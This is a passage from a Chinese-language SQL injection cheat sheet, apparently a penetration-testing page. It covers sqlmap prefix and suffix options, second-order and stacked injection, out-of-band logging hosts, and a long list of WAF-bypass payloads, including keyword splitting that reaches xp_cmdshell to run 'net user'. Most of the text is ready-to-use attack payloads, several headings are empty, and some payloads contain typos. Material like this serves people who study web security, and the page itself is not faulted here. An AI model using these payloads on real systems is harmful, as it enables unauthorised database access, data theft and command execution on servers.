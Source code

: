 ```
sqlmap -u http://192.168.100.141/index.php/author=123 --prefix "%2527" --suffix "%23"
-prefix为设置前缀    -suffix为设置后缀
设置后缀，防止sqlmap使用内联注入
```
#### 图片上传文件名SQL注入
#### 二次注入
abc' 数据经过addslashes过滤，单引号前面添加反斜杠abc\'，但传到数据库的数据还是abc'  
假如在如下场景中，我们浏览一些网站的时候，可以现在注册见页面注册username=test'，接下来访问xxx.php?username=test'，页面返回id=22；  
接下来再次发起请求xxx.php?id=22，这时候就有可能发生sql注入，比如页面会返回MySQL的错误。  
访问xxx.php?id=test' union select 1,user(),3%23，获得新的id=40，得到user()的结果，利用这种注入方式会得到数据库中的值。  
#### XFF头注入
#### 堆叠注入
分号（;）是用来表示一条sql语句的结束。使用；联合注入语句

```
-1';show columns from table #
```

#### 外带日志
xip.io     ceye.io

#### 绕WAF

```
# 大小写绕过
UnIoN SeLcT 1,2,3
# 内联注释
id=-1/*!UNION*/%20//*!SELECT*/%201,2,3
# 特殊字符替换空格
%09 tab键(水平)、%0a 换行、%0c 新的一页
%0d return功能、%0b tab键(垂直)、%a0空格
# 等价函数和逻辑符号替换
hex()、bin()==>ascii()
sleep()==>benchmark()
concat_ws()==>group_concat()
mid()、substr()==>substring()
@@version==>version()
@@datadir==>datadir()
逻辑符号：如and和or不能使用时，尝试&&和||双管道符。
# 特殊符号
反引号，select `version()`，绕过空格和正则
加号和点，"+"和"."代表连接，也可绕过空格和关键字过滤
@符号，用于定义变量，一个@代表用户变量，@@代表系统变量
# 关键字拆分
'se'+'lec'+'t'
%S%E%L%C%T 1,2,3
?id=1;EXEC('ma'+'ster..x'+'p_cm'+'dsh'+'ell"net user"')
!和()：'or--+2=--!!!'2
id=1+(UnI)(oN)+(SeL)(EcT)
# 加括号
小括号
union (select+1,2,3+from+users)%23
union(select(1),(2),(3)from(users))
id=(1)or(0x50=0x50)
id=(-1)union(((((((select(1),hex(2),hex(3)from(users))))))))
花括号
select{x user}from{x mysql.user}
id=-1 union select 1,{x 2},3
# 过滤and和or的盲注
id=strcmp(left((select%20username%20from%20users%20limit%200,1),1),0x42)%23
id=strcmp(left((select+username+from+limit+0,1),1,0x42)%23
# 白名单绕过
拦截信息：
```